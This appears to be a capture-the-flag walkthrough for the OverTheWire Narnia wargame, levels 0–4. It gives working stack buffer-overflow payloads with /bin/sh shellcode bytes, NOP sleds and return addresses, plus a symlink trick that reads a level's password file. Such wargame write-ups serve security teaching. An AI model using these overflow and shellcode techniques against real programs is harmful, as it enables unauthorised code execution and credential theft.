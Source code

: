# Binary Exploitation/Pwn challenges from OverTheWire

## Narnia0

We have a `char buf[20]` buffer, but the input is taken as `scanf("%24s",&buf);` and we know that the shell is only executed when the val is at **0xdeadbeef**.

We build the hex address: "\xef\xbe\xad\xde" and with `cat -` we hold the shell open:

```bash
(python -c 'print("A"*20+"\xef\xbe\xad\xde")'; cat -; ) | ./narnia0
```

## Narnia1

This time the code reads from the `env` the variable. We have to set EGG as a shellcode.
We can pick any shellcode from [here](https://www.exploit-db.com/shellcodes):  

```bash
export EGG=`python -c 'print "<shellcode>"'`

./narnia1
```

## Narnia2

The buffer is `char buf[128]` and the function we will exploit will be `strcpy(buf,argv[1]);`.
In order to see where is the range of address we can fall in using a **NOP-Sled**, first of all we have to fill the buffer with 128 "A", inside GDB.
Note the breakpoint at *strcpy*

```console
narnia2@narnia:~$ gdb narnia2
```

```bash
b strcpy
run $(python -c 'print 128 * "A" + "BBBB"+ "CCCC"') #where B is the $ebp and C is the ret address
x/700xw $esp #analyzing the stack to detect "AAAA" B(41414141)
```

With GDB we see that in the stack we have "CCCC" in the **return address** of strcpy, then here we will put our middle-address of the  **NOP-Sled**. Again, any [shellcode](https://www.exploit-db.com/shellcodes/47513) can be used if it is small enough to fit into the NOPs.

`shellcode="\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"`

`return address="\x4c\xd8\xff\xff"`

Number of NOPs = **128**(buff) - **25**(shellcode) + **4**($ebp) = 107

Let's run the program with:

```bash
./narnia2 $(python -c 'print 107 * "\x90" + "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"+"\x4c\xd8\xff\xff"')
```

## Narnia3

In the stack are allocated `char ofile[16] = "/dev/null"` and `char ifile[32]` and there is also a `strcpy(ifile, argv[1])` that copies in ifile argv[1]. Looking at the stack we can see that the two buffers are one above the other, then writing to **ifile** (strcpy doesn't check the length) also **ofile** can be written.
You can analyze the stack using:

```console
narnia3@narnia:~$ gdb narnia3
```

`run AAAAAAAAAAAAAAAAAAAAAAAAAAA`

`b open@plt`

`x/700xw $esp`


argv[1] will be:
`/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile`

Now you can set up your files and folder in your filesystem:

**Copy this in /tmp/yourscript.sh**

```bash
#!/bin/bash

mkdir /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/

touch /tmp/yourfile

chmod 777 /tmp/yourfile

ln -s /etc/narnia_pass/narnia4 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile

/narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile

cat /tmp/yourfile
```

>The directory "AAAAAAAAAAAAAAAAAAAAAAAAAAA" could be already created due to the number of the players in the server. You can create your own 32-bytes long directory with any character you want.

## Narnia4

This challenge is simular to Narnia2, so also here we have a char `buffer[256]` that we must overflow to overwrite the `strcpy(buffer,argv[1])` return address, but the main difference is that here there are also other buffer of strings to overwrite before we can change it.

First of all we must see when the program goes in segmentation fault: with some test using

```console
narnia4@narnia:~$ ./narnia4 $(python -c "print('A'*$i)")
```

we undersrand that giving at $i the value of 226 it explodes so the EBD was overwritten.

Now we search the return address the we'll insert instead of that of strcpy (searching when the '\x41' are), we'll use gdb:

```console
narnia4@narnia:~$ gdb narnia4
```

`run $(python -c "print('A'*226)")`

`b strcpy@plt`

`x/700xw $esp`

We choose an address in the middle to use the NOP-Sled.

We'll use the same shellcode the we used in Narnia2:
`shellcode="\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"`

Now we can prepare the argv[1] to pass to the program: 239 bytes of '\x90' + 25 bytes of shellcode and finally the return addess:

```bash
./narnia4 $(python -c "print('\x90'*239+'\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80'+'\x18\xd8\xff\xff')")
```
